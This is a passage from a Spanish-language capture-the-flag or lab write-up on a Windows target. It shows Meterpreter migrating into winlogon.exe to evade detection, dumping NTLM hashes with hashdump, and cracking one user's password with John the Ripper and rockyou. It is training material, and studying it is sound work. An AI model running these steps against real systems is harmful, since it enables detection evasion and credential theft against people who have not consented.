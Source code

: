 ```bash
 600   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe

[...]
```

Para evadir detecciones, migramos al proceso `winlogon.exe`, que es un proceso habitual en sistemas operativos Windows. Para ello, usamos el comando `migrate 644`, indicando el identificador del proceso.

```bash
meterpreter > migrate 644
[*] Migrating from 1796 to 644...
[*] Migration completed successfully.
meterpreter > getpid 
Current pid: 644
```

### Cracking de contraseñas (meterpreter)

Con el comando `hashdump`, podemos obtener los usuarios y los hashes NTLM de la máquina remota en formato `LM:NT`.

```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Almacenamos los hashes obtenidos en un archivo para tratar de descifrarlos con la herramienta `John the Ripper` o `Hashcat`.

En este caso, optamos por `John the Ripper` y usamos el siguiente comando:

```bash
❯ john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)     
alqfna22         (Jon)     
2g 0:00:00:00 DONE (2023-03-28 18:52) 4.166g/s 21250Kp/s 21250Kc/s 21260KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```
